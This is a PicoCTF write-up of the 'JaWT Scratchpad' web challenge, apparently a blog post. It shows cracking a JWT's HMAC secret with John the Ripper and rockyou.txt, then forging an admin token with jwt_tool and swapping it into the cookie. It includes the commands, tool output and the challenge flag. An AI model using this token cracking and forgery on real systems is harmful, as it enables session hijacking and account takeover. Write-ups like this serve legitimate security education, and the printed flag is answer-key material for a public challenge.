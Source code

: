 ```yaml
---
title: "JaWT Scratchpad"
description: "Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210\n\nHint: What is that cookie?\nHint: Have you heard of JWT?"
pubDate: 2025-03-13
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["medium"]
image: "./images/picoctf/jawtscratchpad/home.png"
---
```


We are given a webapp with a home page, specifying we can use any username *except* admin:
![home.png](images/picoctf/jawtscratchpad/home.png)

We can input the username 'sealldev' and we are given our scratchpad:
![myscratchpad.png](images/picoctf/jawtscratchpad/myscratchpad.png)

When we are logged in, I use EditThisCookie2 to look at and modify my cookies:
![cookie.png](images/picoctf/jawtscratchpad/cookie.png)

That is a JWT token! Let's use jwt.io to analyse it.
![jwtdecode.png](images/picoctf/jawtscratchpad/jwtdecode.png)

It has a `user` with the username we inputted, we don't know the secret so we can't modify the `user` to `admin`.

The webapp page has a hint:
> You can use your name as a log in, because that's quick and easy to remember! If you don't like your name, use a short and cool one like **John**!

**John** has a hyperlink attached to JohnTheRipper, a hash cracking software!

So, can we crack the hash for the JWT? The answer is yes! I download SecLists to get rockyou.txt.
```bash
$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2VhbGxkZXYifQ.JBWK-4qJOo1qQDT1JixKFdEzKc2fM2oR4fxTJ62m6wI" > jwt
$ john --wordlist=/.../SecLists/Passwords/Leaked-Databases/rockyou.txt jwt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:02 DONE (2025-03-13 23:38) 0.3355g/s 2481Kp/s 2481Kc/s 2481KC/s ilovepie77..ilovepets!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is `ilovepico`!

We can now use jwt_tool to forge a new JWT token.

```bash
$ python3 jwt_tool.py -p ilovepico -T -S hs256 "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2VhbGxkZXYifQ.JBWK-4qJOo1qQDT1JixKFdEzKc2fM2oR4fxTJ62m6wI"                                                     1 ↵

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi

Original JWT:


====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] typ = "JWT"
[2] alg = "HS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] user = "sealldev"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of user is: sealldev
Please enter new value and hit ENTER
> admin
[1] user = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_bbe5a5f4d2742010313ecfcfe3a15d73 - Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

To explain the options we used in the command:
- `-p ilovepico` specifies the password for the signature
- `-S hs256` specifies with what algorithm to sign the new signature
- `-T` enables tampering which has the dialogue to change the 

I then change the payload to set the `user` to `admin`.

It then returns the tampered token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s`.

We can then change the `jwt` cookie to have that as the value (I use EditThisCookie2 to update it).

I then reload the page and get the flag!
![flag.png](images/picoctf/jawtscratchpad/flag.png)

Flag: `picoCTF{jawt_was_just_what_you_thought_44c752f5}`